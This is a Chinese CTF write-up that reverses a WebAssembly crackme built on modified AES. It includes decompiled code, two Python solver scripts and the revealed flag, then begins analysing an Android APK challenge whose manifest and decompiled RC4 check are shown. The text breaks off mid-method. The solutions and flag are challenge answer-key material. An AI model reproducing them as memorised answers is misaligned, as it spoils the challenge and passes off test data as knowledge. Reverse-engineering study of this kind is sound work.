                  i32.load8_u offset=13
                  i32.store8 offset=9
                  local.get 2
                  local.get 3
                  i32.store8 offset=5
                  local.get 2
                  local.get 4
                  i32.store8 offset=13
                  local.get 2
                  i32.load8_u offset=2
                  local.set 3
                  local.get 2
                  local.get 2
                  i32.load8_u offset=10
                  i32.store8 offset=2
                  local.get 2
                  local.get 3
                  i32.store8 offset=10
                  local.get 2
                  i32.load8_u offset=6
                  local.set 3
                  local.get 2
                  local.get 2
                  i32.load8_u offset=14
                  i32.store8 offset=6
                  local.get 2
                  local.get 3
                  i32.store8 offset=14
                  local.get 2
                  i32.load8_u offset=15
                  local.set 3
                  local.get 2
                  local.get 2
                  i32.load8_u offset=11
                  i32.store8 offset=15
                  local.get 2
                  local.get 2
                  i32.load8_u offset=7
                  i32.store8 offset=11
                  local.get 2
                  local.get 2
                  i32.load8_u offset=3
                  i32.store8 offset=7
                  local.get 2
                  local.get 3
                  i32.store8 offset=3
                  local.get 0
                  i32.const 10
                  i32.ne
                  if  ;; label = @8
                    local.get 2
                    call 4
                    local.get 2
                    i32.const 4
                    i32.add
                    call 4
                    local.get 2
                    i32.const 8
                    i32.add
                    call 4
                    local.get 2
                    i32.const 12
                    i32.add
                    call 4
                  end
                  local.get 2
                  local.get 6
                  local.get 0
                  i32.const 4
                  i32.shl
                  i32.add
                  call 3
                  local.get 0
                  i32.const 1
                  i32.add
                  local.set 0
                  br 1 (;@6;)
                end
              end
              local.get 6
              i32.const 192
              i32.add
              global.set 0
            else
              local.get 6
              i32.const 176
              i32.add
              local.get 0
              i32.add
              local.get 0
              local.get 2
              i32.add
              i32.load8_u
              i32.store8
              local.get 0
              i32.const 1
              i32.add
              local.set 0
              br 1 (;@4;)
            end
          end
          local.get 1
          i32.const 16
          i32.add
          local.set 1
          br 1 (;@2;)
        end
      end
      i32.const 0
      local.set 1
      loop  ;; label = @2
        local.get 1
        local.tee 0
        i32.const 32
        i32.ne
        if  ;; label = @3
          local.get 0
          i32.const 1
          i32.add
          local.set 1
          local.get 0
          local.get 7
          i32.add
          i32.load8_u
          local.get 0
          i32.const 1312
          i32.add
          i32.load8_u
          i32.eq
          br_if 1 (;@2;)
        end
      end
      local.get 0
      i32.const 31
      i32.gt_u
      local.set 2
    end
    local.get 7
    i32.const 144
    i32.add
    global.set 0
    local.get 2)
  (func (;2;) (type 3) (param i32 i32 i32) (result i32)
    local.get 2
    i32.const -23
    i32.mul
    local.get 0
    local.get 1
    i32.xor
    i32.add
    i32.const 255
    i32.and)
  (func (;3;) (type 4) (param i32 i32)
    (local i32 i32)
    loop  ;; label = @1
      local.get 2
      i32.const 16
      i32.ne
      if  ;; label = @2
        local.get 0
        local.get 2
        i32.add
        local.tee 3
        local.get 3
        i32.load8_u
        local.get 1
        local.get 2
        i32.add
        i32.load8_u
        i32.xor
        i32.store8
        local.get 2
        i32.const 1
        i32.add
        local.set 2
        br 1 (;@1;)
      end
    end)
  (func (;4;) (type 0) (param i32)
    (local i32 i32 i32 i32 i32 i32 i32)
    local.get 0
    local.get 0
    i32.load8_u offset=1
    local.tee 2
    local.get 0
    i32.load8_u
    local.tee 3
    i32.xor
    local.tee 4
    call 5
    local.get 3
    i32.xor
    local.get 0
    i32.load8_u offset=2
    local.tee 5
    local.get 4
    i32.xor
    local.tee 6
    local.get 0
    i32.load8_u offset=3
    local.tee 1
    i32.xor
    local.tee 7
    i32.xor
    i32.store8
    local.get 0
    local.get 2
    local.get 5
    i32.xor
    call 5
    local.get 2
    i32.xor
    local.get 7
    i32.xor
    i32.store8 offset=1
    local.get 0
    local.get 1
    local.get 5
    i32.xor
    call 5
    local.get 1
    i32.xor
    local.get 4
    i32.xor
    i32.store8 offset=2
    local.get 0
    local.get 1
    local.get 3
    i32.xor
    call 5
    local.get 6
    i32.xor
    i32.store8 offset=3)
  (func (;5;) (type 5) (param i32) (result i32)
    local.get 0
    i32.extend8_s
    i32.const 7
    i32.shr_u
    i32.const 27
    i32.and
    local.get 0
    i32.const 1
    i32.shl
    i32.xor
    i32.const 255
    i32.and)
  (func (;6;) (type 0) (param i32)
    local.get 0
    global.set 0)
  (func (;7;) (type 6) (result i32)
    global.get 0)
  (table (;0;) 2 2 funcref)
  (memory (;0;) 258 258)
  (global (;0;) (mut i32) (i32.const 66880))
  (export "memory" (memory 0))
  (export "check" (func 1))
  (export "__indirect_function_table" (table 0))
  (export "_initialize" (func 0))
  (export "_emscripten_stack_restore" (func 6))
  (export "emscripten_stack_get_current" (func 7))
  (elem (;0;) (i32.const 1) func 0)
  (data (;0;) (i32.const 1024) "\80\80XK\c6\16^\90\95\b56\aa^T\fe\9a\ab\cd\179^\82\f1Jc\b7,\90\d5\08\7f\e69&-!\a815\9fj[=q\a4\8d\f1,\90\d8\93'\a0\03\1d\aa\f7\8e\f8\f5\c6\fe(\9a\ed\a7\c9|le\ad\96n\ff\bf\ab+\82kO^\9dy\99B\cc_\c0]H\da\b8\b1}\e8/S\d9v@A4\00\fa\08a\8c\e9s\b9u\de\09\8bZ\b7z\a6\eb\010\91\e4c\10\16\02\95\8a\b5\f0\a1\19\17i\df\1f\a3X%\0af\c5\f2\0b\f9\1a\d5\c8\c7b\af\e6\ec\80{J\a5\a9\88\97VI\b6\05\cd\1eM\9e\fd$g>\07C):\db\15\86xp\ca\d2\1c\b4\e2N\84\04Q\81\bah`P\13\5c~\06\98\89\f68\cb\cf\be#\bd\92m7\d7\8f\14\f36\0c\ae\b0? \f4R\e0\22\7ftF\fc\ee\9c\b2\87.E\11\e7\d1\d0*d\ef<\12Y\acT;o\0d\e3\dc\9bG\c4\bb\a2\c2K3\83\d4\ce\c1D\dd\b3\94\0fr\85\d6\fb\d3W\e5\bc\182\1b\c3wU\ea\0e\e1L\96<\d1s/\ac\fe\c2\00V\e1&4\9a\e1/\b5O\a3\86\fb\87\f8\91\0a\9b\00\fb\0f\8d$w"))

```

有实力的大佬请尽情享受几百行的汇编......

```python
def solve():
    # 1. 准确解析 WAT 中的 data 段 (起始地址 1024)
    wat_str = r"\80\80XK\c6\16^\90\95\b56\aa^T\fe\9a\ab\cd\179^\82\f1Jc\b7,\90\d5\08\7f\e69&-!\a815\9fj[=q\a4\8d\f1,\90\d8\93'\a0\03\1d\aa\f7\8e\f8\f5\c6\fe(\9a\ed\a7\c9|le\ad\96n\ff\bf\ab+\82kO^\9dy\99B\cc_\c0]H\da\b8\b1}\e8/S\d9v@A4\00\fa\08a\8c\e9s\b9u\de\09\8bZ\b7z\a6\eb\010\91\e4c\10\16\02\95\8a\b5\f0\a1\19\17i\df\1f\a3X%\0af\c5\f2\0b\f9\1a\d5\c8\c7b\af\e6\ec\80{J\a5\a9\88\97VI\b6\05\cd\1eM\9e\fd$g>\07C):\db\15\86xp\ca\d2\1c\b4\e2N\84\04Q\81\bah`P\13\5c~\06\98\89\f68\cb\cf\be#\bd\92m7\d7\8f\14\f36\0c\ae\b0? \f4R\e0\22\7ftF\fc\ee\9c\b2\87.E\11\e7\d1\d0*d\ef<\12Y\acT;o\0d\e3\dc\9bG\c4\bb\a2\c2K3\83\d4\ce\c1D\dd\b3\94\0fr\85\d6\fb\d3W\e5\bc\182\1b\c3wU\ea\0e\e1L\96<\d1s/\ac\fe\c2\00V\e1&4\9a\e1/\b5O\a3\86\fb\87\f8\91\0a\9b\00\fb\0f\8d$w"

    def parse_wat_data(s):
        res = bytearray()
        i = 0
        while i < len(s):
            if s[i] == '\\':
                res.append(int(s[i+1:i+3], 16))
                i += 3
            else:
                res.append(ord(s[i]))
                i += 1
        return bytes(res)

    blob = parse_wat_data(wat_str)
    
    # 2. 生成 Round Key 0 (Base Key)
    base_key = bytearray(16)
    for i in range(16):
        xor_part = blob[i] ^ blob[i+16]
        base_key[i] = (xor_part + (-23 * i)) & 0xFF

    # 3. 递推生成所有轮密钥 (0-10)
    round_keys = [bytes(base_key)]
    for r in range(1, 11):
        prev_key = round_keys[-1]
        curr_key = bytearray(16)
        for i in range(16):
            curr_key[i] = (prev_key[i] ^ (r * 17) ^ i) & 0xFF
        round_keys.append(bytes(curr_key))

    # 4. 提取 S 盒与 32 字节密文
    sbox = list(blob[32:288])
    rsbox = [0]*256
    for i, v in enumerate(sbox): rsbox[v] = i
    
    # 密文从偏移 288 开始，长度 32
    full_ciphertext = blob[288:320]

    # 5. AES 逆向工具函数
    def inv_shift_rows(s):
        return [s[0], s[13], s[10], s[7], s[4], s[1], s[14], s[11], s[8], s[5], s[2], s[15], s[12], s[9], s[6], s[3]]

    def xtime(x):
        return ((x << 1) ^ 0x1B) & 0xFF if (x & 0x80) else (x << 1)

    def mul(x, y):
        res = 0
        for i in range(8):
            if (y >> i) & 1: res ^= x
            x = xtime(x)
        return res

    def inv_mix_columns(s):
        ns = [0]*16
        for i in range(0, 16, 4):
            c = s[i:i+4]
            ns[i+0] = mul(c[0], 14) ^ mul(c[1], 11) ^ mul(c[2], 13) ^ mul(c[3], 9)
            ns[i+1] = mul(c[0], 9)  ^ mul(c[1], 14) ^ mul(c[2], 11) ^ mul(c[3], 13)
            ns[i+2] = mul(c[0], 13) ^ mul(c[1], 9)  ^ mul(c[2], 14) ^ mul(c[3], 11)
            ns[i+3] = mul(c[0], 11) ^ mul(c[1], 13) ^ mul(c[2], 9)  ^ mul(c[3], 14)
        return ns

    def decrypt_block(block):
        state = [b ^ k for b, k in zip(block, round_keys[10])]
        state = inv_shift_rows(state)
        state = [rsbox[b] for b in state]
        for r in range(9, 0, -1):
            state = [b ^ k for b, k in zip(state, round_keys[r])]
            state = inv_mix_columns(state)
            state = inv_shift_rows(state)
            state = [rsbox[b] for b in state]
        state = [b ^ k for b, k in zip(state, round_keys[0])]
        return bytes(state)

    # 6. 分两块解密并合并
    block1 = decrypt_block(full_ciphertext[0:16])
    block2 = decrypt_block(full_ciphertext[16:32])
    
    full_flag = block1 + block2
    
    # 移除 PKCS#7 填充 (填充字节的值等于填充的长度)
    padding_len = full_flag[-1]
    if 0 < padding_len <= 16:
        # 简单检查是否真的是填充
        if all(b == padding_len for b in full_flag[-padding_len:]):
            full_flag = full_flag[:-padding_len]

    print("Flag:", full_flag.decode(errors='ignore'))

solve()
```

还是干点人事吧

```bash
wasm-decompile challenge.wasm -o challenge.dcmp
```

这一步可以试着反编译为高级代码，可以直接notepad打开，勉强可读

```text
export memory memory(initial: 258, max: 258);

global g_a:int = 66880;

export table indirect_function_table:funcref(min: 2, max: 2);

data d_XK6T9Jc915jqlenkOyB_HSvA4asu(offset: 1024) =
  "\80\80XK\c6\16^\90\95\b56\aa^T\fe\9a\ab\cd\179^\82\f1Jc\b7,\90\d5\08\7f"
  "\e69&-!\a815\9fj[=q\a4\8d\f1,\90\d8\93'\a0\03\1d\aa\f7\8e\f8\f5\c6\fe("
  "\9a\ed\a7\c9|le\ad\96n\ff\bf\ab+\82kO^\9dy\99B\cc_\c0]H\da\b8\b1}\e8/S"
  "\d9v@A4\00\fa\08a\8c\e9s\b9u\de\09\8bZ\b7z\a6\eb\010\91\e4c\10\16\02\95"
  "\8a\b5\f0\a1\19\17i\df\1f\a3X%\0af\c5\f2\0b\f9\1a\d5\c8\c7b\af\e6\ec\80"
  "{J\a5\a9\88\97VI\b6\05\cd\1eM\9e\fd$g>\07C):\db\15\86xp\ca\d2\1c\b4\e2"
  "N\84\04Q\81\bah`P\13\~\06\98\89\f68\cb\cf\be#\bd\92m7\d7\8f\14\f36\0c\ae"
  "\b0? \f4R\e0"\7ftF\fc\ee\9c\b2\87.E\11\e7\d1\d0*d\ef<\12Y\acT;o\0d\e3\dc"
  "\9bG\c4\bb\a2\c2K3\83\d4\ce\c1D\dd\b3\94\0fr\85\d6\fb\d3W\e5\bc\182\1b"
  "\c3wU\ea\0e\e1L\96<\d1s/\ac\fe\c2\00V\e1&4\9a\e1/\b5O\a3\86\fb\87\f8\91"
  "\0a\9b\00\fb\0f\8d$w";

export function initialize() {
  nop
}

export function check(a:int, b:int):int {
  var d:int;
  var f:int;
  var c:int;
  var h:int = g_a - 144;
  g_a = h;
  if (b > 48) goto B_a;
  var i:int = h + 128;
  loop L_b {
    if (d != 8) {
      (d + i)[0]:byte =
        f_c((d + 1024)[0]:ubyte, (d + 1040)[0]:ubyte, d & 255);
      d = d + 1;
      continue L_b;
    }
  }
  d = 8;
  loop L_d {
    if (d != 16) {
      (d + i)[0]:byte =
        f_c((d + 1024)[0]:ubyte, (d + 1040)[0]:ubyte, d & 255);
      d = d + 1;
      continue L_d;
    }
  }
  var j:int = h - -64;
  var e:int = (b & 48) + 16;
  loop L_f {
    if (b == f) {
      d = select_if(e, b, b < e);
      a = e - b;
      loop L_i {
        if (b == d) goto B_h;
        (b + j)[0]:byte = a;
        b = b + 1;
        continue L_i;
      }
      unreachable;
      label B_h:
    } else {
      (f + j)[0]:byte = (a + f)[0]:ubyte;
      f = f + 1;
      continue L_f;
    }
  }
  if (e != 32) goto B_a;
  b = 0;
  loop L_j {
    if (b < 32) {
      c = b + j;
      var k:int = b + h;
      a = 0;
      var g:int = g_a - 192;
      g_a = g;
      loop L_l {
        if (a == 16) {
          a = 0;
          loop L_n {
            if (a == 16) {
              var l:int = g - 16;
              f = 1;
              loop L_q {
                if (f == 11) goto B_p;
                e = f * 17;
                a = 0;
                c = l + (d = f << 4);
                loop L_r {
                  if (a == 16) {
                    f = f + 1;
                    continue L_q;
                  } else {
                    (d + g + a)[0]:byte = (e ^ (a + c)[0]:ubyte) ^ a;
                    a = a + 1;
                    continue L_r;
                  }
                  unreachable;
                }
                unreachable;
              }
              unreachable;
              label B_p:
            } else {
              (a + g)[0]:byte = (a + i)[0]:ubyte;
              a = a + 1;
              continue L_n;
            }
          }
          f_d(g + 176, g);
          a = 1;
          loop L_t {
            if (a == 11) {
              a = 0;
              loop L_w {
                if (a == 16) goto B_v;
                (a + k)[0]:byte = (g + 176 + a)[0]:ubyte;
                a = a + 1;
                continue L_w;
              }
              unreachable;
              label B_v:
            } else {
              c = g + 176;
              e = 0;
              loop L_x {
                if (e != 16) {
                  d = c + e;
                  d[0]:byte = (d[0]:ubyte + 1056)[0]:ubyte;
                  e = e + 1;
                  continue L_x;
                }
              }
              e = c[1]:ubyte;
              c[1]:byte = c[5]:ubyte;
              d = c[9]:ubyte;
              c[9]:byte = c[13]:ubyte;
              c[5]:byte = d;
              c[13]:byte = e;
              d = c[2]:ubyte;
              c[2]:byte = c[10]:ubyte;
              c[10]:byte = d;
              d = c[6]:ubyte;
              c[6]:byte = c[14]:ubyte;
              c[14]:byte = d;
              d = c[15]:ubyte;
              c[15]:byte = c[11]:ubyte;
              c[11]:byte = c[7]:ubyte;
              c[7]:byte = c[3]:ubyte;
              c[3]:byte = d;
              if (a != 10) {
                f_e(c);
                f_e(c + 4);
                f_e(c + 8);
                f_e(c + 12);
              }
              f_d(c, g + (a << 4));
              a = a + 1;
              continue L_t;
            }
          }
          g_a = g + 192;
        } else {
          (g + 176 + a)[0]:byte = (a + c)[0]:ubyte;
          a = a + 1;
          continue L_l;
        }
      }
      b = b + 16;
      continue L_j;
    }
  }
  b = 0;
  loop L_aa {
    a = b;
    if (a != 32) {
      b = a + 1;
      if ((a + h)[0]:ubyte == (a + 1312)[0]:ubyte) continue L_aa;
    }
  }
  c = a > 31;
  label B_a:
  g_a = h + 144;
  return c;
}

function f_c(a:int, b:int, c:int):int {
  return c * -23 + (a ^ b) & 255
}

function f_d(a:int, b:int) {
  var c:int;
  loop L_a {
    if (c != 16) {
      var d:int = a + c;
      d[0]:byte = d[0]:ubyte ^ (b + c)[0]:ubyte;
      c = c + 1;
      continue L_a;
    }
  }
}

function f_e(a:int) {
  var c:int;
  var d:int;
  var e:int;
  var f:int;
  var g:int;
  var b:int;
  var h:int;
  a[0]:byte =
    (f_f(e = (c = a[1]:ubyte) ^ (d = a[0]:ubyte)) ^ d) ^
    (h = (g = (f = a[2]:ubyte) ^ e) ^ (b = a[3]:ubyte));
  a[1]:byte = (f_f(c ^ f) ^ c) ^ h;
  a[2]:byte = (f_f(b ^ f) ^ b) ^ e;
  a[3]:byte = f_f(b ^ d) ^ g;
}

function f_f(a:int):int {
  return ((i32_extend8_s(a) >> 7 & 27) ^ a << 1) & 255
}

export function emscripten_stack_restore(a:int) {
  g_a = a
}

export function emscripten_stack_get_current():int {
  return g_a
}
```



```python
def solve():
    # 原始数据段 (从 1024 开始)
    # 根据伪代码，我们需要提取 key1, key2, sbox 和 target
    raw_data = r"\80\80XK\c6\16^\90\95\b56\aa^T\fe\9a\ab\cd\179^\82\f1Jc\b7,\90\d5\08\7f\e69&-!\a815\9fj[=q\a4\8d\f1,\90\d8\93'\a0\03\1d\aa\f7\8e\f8\f5\c6\fe(\9a\ed\a7\c9|le\ad\96n\ff\bf\ab+\82kO^\9dy\99B\cc_\c0]H\da\b8\b1}\e8/S\d9v@A4\00\fa\08a\8c\e9s\b9u\de\09\8bZ\b7z\a6\eb\010\91\e4c\10\16\02\95\8a\b5\f0\a1\19\17i\df\1f\a3X%\0af\c5\f2\0b\f9\1a\d5\c8\c7b\af\e6\ec\80{J\a5\a9\88\97VI\b6\05\cd\1eM\9e\fd$g>\07C):\db\15\86xp\ca\d2\1c\b4\e2N\84\04Q\81\bah`P\13\~\06\98\89\f68\cb\cf\be#\bd\92m7\d7\8f\14\f36\0c\ae\b0? \f4R\e0\22\7ftF\fc\ee\9c\b2\87.E\11\e7\d1\d0*d\ef<\12Y\acT;o\0d\e3\dc\9bG\c4\bb\a2\c2K3\83\d4\ce\c1D\dd\b3\94\0fr\85\d6\fb\d3W\e5\bc\182\1b\c3wU\ea\0e\e1L\96<\d1s/\ac\fe\c2\00V\e1&4\9a\e1/\b5O\a3\86\fb\87\f8\91\0a\9b\00\fb\0f\8d$w"

    def parse_wat(s):
        res = bytearray()
        i = 0
        while i < len(s):
            if s[i] == '\\' and i+2 < len(s) and s[i+1:i+3].isalnum():
                try:
                    res.append(int(s[i+1:i+3], 16))
                    i += 3
                except: res.append(ord(s[i])); i += 1
            else:
                res.append(ord(s[i]))
                i += 1
        return res

    blob = parse_wat(raw_data)

    # 1. 生成 Round Key 0 (f_c)
    rk0 = bytearray(16)
    for i in range(16):
        rk0[i] = (i * -23 + (blob[i] ^ blob[i+16])) & 0xFF
    
    # 2. 迭代生成 11 轮密钥
    round_keys = [rk0]
    for r in range(1, 11):
        prev = round_keys[-1]
        curr = bytearray([(prev[i] ^ (r * 17) ^ i) & 0xFF for i in range(16)])
        round_keys.append(curr)

    # 3. 提取 S 盒和目标密文
    sbox = blob[32:288]
    rsbox = [0]*256
    for i, v in enumerate(sbox): rsbox[v] = i
    
    target = blob[288:320]

    # 4. AES 逆向组件
    def inv_shift_rows(s):
        return [s[0], s[13], s[10], s[7], s[4], s[1], s[14], s[11], s[8], s[5], s[2], s[15], s[12], s[9], s[6], s[3]]

    def xtime(x):
        return ((x << 1) ^ 0x1B) & 0xFF if (x & 0x80) else (x << 1)

    def mul(x, y):
        res = 0
        for i in range(8):
            if (y >> i) & 1: res ^= x
            x = xtime(x)
        return res

    def inv_mix_cols(s):
        ns = [0]*16
        for i in range(0, 16, 4):
            c = s[i:i+4]
            ns[i+0] = mul(c[0], 14) ^ mul(c[1], 11) ^ mul(c[2], 13) ^ mul(c[3], 9)
            ns[i+1] = mul(c[0], 9)  ^ mul(c[1], 14) ^ mul(c[2], 11) ^ mul(c[3], 13)
            ns[i+2] = mul(c[0], 13) ^ mul(c[1], 9)  ^ mul(c[2], 14) ^ mul(c[3], 11)
            ns[i+3] = mul(c[0], 11) ^ mul(c[1], 13) ^ mul(c[2], 9)  ^ mul(c[3], 14)
        return ns

    def decrypt_block(block):
        state = [(b ^ k) for b, k in zip(block, round_keys[10])]
        state = inv_shift_rows(state)
        state = [rsbox[b] for b in state]
        for r in range(9, 0, -1):
            state = [(b ^ k) for b, k in zip(state, round_keys[r])]
            state = inv_mix_cols(state)
            state = inv_shift_rows(state)
            state = [rsbox[b] for b in state]
        state = [(b ^ k) for b, k in zip(state, round_keys[0])]
        return bytes(state)

    # 解密两个分组
    res1 = decrypt_block(target[:16])
    res2 = decrypt_block(target[16:])
    
    print("Result:", (res1 + res2).decode(errors='ignore'))

solve()
```

**flag{One_Easy_Wasm_Chall}**


+ JN

> Why can't some functions be seen

[ ^附件]:JN.zip

jadx打开出现了报错信息：

```text
WARN : Found duplicated class: kotlin.coroutines.jvm.internal.DebugProbesKt, count: 2. Only one will be loaded!
  classes.dex
  JN.apk:DebugProbesKt.bin
```

Jadx警告信息：重复的DebugProbesKt类 - 这意味着APK中可能有多个DEX文件或者包含了重复的库。jadx说只有一个会被加载，可能就是题干中所说“can't be seen”。

查看AndroidMainfest.xml，第68行可以看到MainActivity的位置

```java
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0"
    android:compileSdkVersion="35"
    android:compileSdkVersionCodename="15"
    package="com.challenge.xsran"
    platformBuildVersionCode="35"
    platformBuildVersionName="15">
    <uses-sdk
        android:minSdkVersion="24"
        android:targetSdkVersion="35"/>
    <uses-permission android:name="android.permission.INJECT_EVENTS"/>
    <uses-permission android:name="android.permission.GET_TASKS"/>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
    <uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>
    <uses-permission android:name="android.permission.ACCESS_BACKGROUND_LOCATION"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <uses-permission android:name="android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.MANAGE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGES"/>
    <uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.READ_PHONE_NUMBERS"/>
    <uses-permission android:name="android.permission.READ_SMS"/>
    <uses-permission android:name="android.permission.BLUETOOTH"/>
    <uses-permission android:name="android.permission.BLUETOOTH_CONNECT"/>
    <uses-permission android:name="miui.permission.READ_AND_WRITE_PERMISSION_MANAGER"/>
    <uses-permission android:name="miui.permission.READ_AND_WIRTE_PERMISSION_MANAGER"/>
    <uses-permission android:name="android.permission.READ_CONTACTS"/>
    <uses-permission android:name="android.permission.BODY_SENSORS"/>
    <uses-permission android:name="android.permission.BODY_SENSORS_BACKGROUND"/>
    <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>
    <uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>
    <uses-permission android:name="android.permission.BLUETOOTH"/>
    <uses-permission android:name="android.permission.BLUETOOTH_ADVERTISE"/>
    <uses-permission android:name="android.permission.BLUETOOTH_CONNECT"/>
    <uses-permission android:name="android.permission.BLUETOOTH_SCAN"/>
    <uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>
    <uses-permission android:name="com.android.launcher.permission.INSTALL_SHORTCUT"/>
    <uses-permission android:name="android.permission.DISABLE_KEYGUARD"/>
    <uses-permission android:name="android.permission.READ_MEDIA_IMAGES"/>
    <uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>
    <uses-permission android:name="android.permission.PACKAGE_USAGE_STATS"/>
    <permission
        android:name="com.challenge.xsran.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"
        android:protectionLevel="signature"/>
    <uses-permission android:name="com.challenge.xsran.DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION"/>
    <application
        android:theme="@style/Theme.MyApplication"
        android:label="@string/app_name"
        android:icon="@mipmap/ic_launcher"
        android:allowBackup="true"
        android:supportsRtl="true"
        android:extractNativeLibs="true"
        android:fullBackupContent="@xml/backup_rules"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:appComponentFactory="androidx.core.app.CoreComponentFactory"
        android:dataExtractionRules="@xml/data_extraction_rules">
        <activity
            android:theme="@style/Theme.MyApplication"
            android:label="@string/app_name"
            android:name="com.challenge.xsran.MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <service
            android:name="com.challenge.xsran.MySimpleService"
            android:enabled="true"
            android:exported="false"/>
        <provider
            android:name="androidx.startup.InitializationProvider"
            android:exported="false"
            android:authorities="com.challenge.xsran.androidx-startup">
            <meta-data
                android:name="androidx.emoji2.text.EmojiCompatInitializer"
                android:value="androidx.startup"/>
            <meta-data
                android:name="androidx.lifecycle.ProcessLifecycleInitializer"
                android:value="androidx.startup"/>
            <meta-data
                android:name="androidx.profileinstaller.ProfileInstallerInitializer"
                android:value="androidx.startup"/>
        </provider>
        <receiver
            android:name="androidx.profileinstaller.ProfileInstallReceiver"
            android:permission="android.permission.DUMP"
            android:enabled="true"
            android:exported="true"
            android:directBootAware="false">
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.INSTALL_PROFILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.SKIP_FILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.SAVE_PROFILE"/>
            </intent-filter>
            <intent-filter>
                <action android:name="androidx.profileinstaller.action.BENCHMARK_OPERATION"/>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

在/com/challenge.xsran下面可以找到

```java
package com.challenge.xsran;

import android.content.Intent;
import android.os.Bundle;
import androidx.activity.ComponentActivity;
import androidx.activity.compose.ComponentActivityKt;
import androidx.compose.foundation.layout.SizeKt;
import androidx.compose.material3.MaterialTheme;
import androidx.compose.material3.SurfaceKt;
import androidx.compose.runtime.Composer;
import androidx.compose.runtime.ComposerKt;
import androidx.compose.runtime.internal.ComposableLambdaKt;
import androidx.compose.ui.Modifier;
import com.challenge.xsran.ui.theme.ThemeKt;
import java.util.Arrays;
import kotlin.Metadata;
import kotlin.UByte;
import kotlin.Unit;
import kotlin.jvm.functions.Function1;
import kotlin.jvm.functions.Function2;
import kotlin.jvm.internal.Intrinsics;
import kotlin.text.Charsets;

/* compiled from: MainActivity.kt */
@Metadata(d1 = {"\u00000\n\u0002\u0018\u0002\n\u0002\u0018\u0002\n\u0002\b\u0002\n\u0002\u0010\u000b\n\u0000\n\u0002\u0010\u0012\n\u0002\b\u0003\n\u0002\u0010\u0002\n\u0000\n\u0002\u0018\u0002\n\u0002\b\u0004\n\u0002\u0010\u000e\n\u0002\b\u0002\b\u0007\u0018\u0000 \u00122\u00020\u0001:\u0001\u0012B\u0005¢\u0006\u0002\u0010\u0002J\u000e\u0010\u0003\u001a\u00020\u00042\u0006\u0010\u0005\u001a\u00020\u0006J\u0011\u0010\u0007\u001a\u00020\u00042\u0006\u0010\b\u001a\u00020\u0006H\u0086 J\u0012\u0010\t\u001a\u00020\n2\b\u0010\u000b\u001a\u0004\u0018\u00010\fH\u0014J\u0016\u0010\r\u001a\u00020\u00062\u0006\u0010\u0005\u001a\u00020\u00062\u0006\u0010\u000e\u001a\u00020\u0006J\u000e\u0010\u000f\u001a\u00020\u00042\u0006\u0010\u0010\u001a\u00020\u0011¨\u0006\u0013"}, d2 = {"Lcom/challenge/xsran/MainActivity;", "Landroidx/activity/ComponentActivity;", "()V", "J_Validate", "", "input", "", "N_Valildate", "part", "onCreate", "", "savedInstanceState", "Landroid/os/Bundle;", "unknownEncrypt", "key", "validate", "flag", "", "Companion", "app_release"}, k = 1, mv = {1, 8, 0}, xi = 48)
/* loaded from: classes.dex */
public final class MainActivity extends ComponentActivity {
    public static final int $stable = 0;
    private static final byte[] JAVA_CIPHER;
    private static final byte[] UNKNOWN_KEY;

    public final native boolean N_Valildate(byte[] part);

    static {
        System.loadLibrary("xsran");
        UNKNOWN_KEY = new byte[]{1, 35, 69, 103, -119, -85, -51, -17, -2, -36, -70, -104, 118, 84, 50, 16};
        JAVA_CIPHER = new byte[]{-58, 23, -12, -12, -74, 92, -50, -112};
    }

    public final byte[] unknownEncrypt(byte[] input, byte[] key) {
        Intrinsics.checkNotNullParameter(input, "input");
        Intrinsics.checkNotNullParameter(key, "key");
        int[] iArr = new int[256];
        for (int i = 0; i < 256; i++) {
            iArr[i] = i;
        }
        int i2 = 0;
        for (int i3 = 0; i3 < 256; i3++) {
            int i4 = iArr[i3];
            i2 = (i2 + i4 + (key[i3 % key.length] & UByte.MAX_VALUE)) & 255;
            iArr[i3] = iArr[i2];
            iArr[i2] = i4;
        }
        byte[] bArr = new byte[input.length];
        int length = input.length;
        int i5 = 0;
        int i6 = 0;
        for (int i7 = 0; i7 < length; i7++) {
            i5 = (i5 + 1) & 255;
            int i8 = iArr[i5];
            i6 = (i6 + i8) & 255;
            iArr[i5] = iArr[i6];
            iArr[i6] = i8;
            bArr[i7] = (byte) (iArr[(iArr[i5] + i8) & 255] ^ input[i7]);
        }
        return bArr;
    }

    public final boolean J_Validate(byte[] input) {
        Intrinsics.checkNotNullParameter(input, "input");
        return Arrays.equals(unknownEncrypt(input, UNKNOWN_KEY), JAVA_CIPHER);
    }

    public final boolean validate(String flag) {
        Intrinsics.checkNotNullParameter(flag, "flag");
        if (flag.length() != 22) {
            return false;
        }
        String strSubstring = flag.substring(5, 21);
        Intrinsics.checkNotNullExpressionValue(strSubstring, "substring(...)");
        String strSubstring2 = strSubstring.substring(0, 8);
